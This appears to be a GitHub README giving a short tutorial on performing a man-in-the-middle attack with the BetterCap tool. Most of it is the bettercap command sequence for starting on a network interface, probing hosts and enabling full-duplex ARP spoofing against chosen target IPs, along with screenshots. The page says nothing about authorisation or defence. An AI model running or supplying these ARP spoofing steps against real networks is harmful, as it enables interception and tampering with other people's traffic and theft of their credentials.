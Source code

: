 
# Man In the Middle Attack Using BetterCap


![veracode-appsec_man-middle-attack](https://github.com/eyeblech/man_in_the_middle/assets/78268197/9019f198-ead6-41b1-a4b9-f45d59904090)

```bash
#install bettercap on your linux system

bettercap -iface [network interface name]

#finding network interface name
```

![Screenshot from 2023-07-14 19-09-41](https://github.com/eyeblech/man_in_the_middle/assets/78268197/a6365573-f619-468a-837f-e668d3809aaa)


```bash
#wlp0s20f3 is my network interface name

help

help net.probe

#you can use help if you don't know what that specific thing does

net.probe on #this should be on for spoofing 

#Be MITM

help arp.spoof

set arp.spoof.fullduplex true

set arp.spoof.targets [targets ip, targets ip]

arp.spoof on

```
# Screenshot


![Screenshot from 2023-07-14 22-11-26](https://github.com/eyeblech/man_in_the_middle/assets/78268197/197fb233-70b1-4c24-b57d-987cc62e28fe)


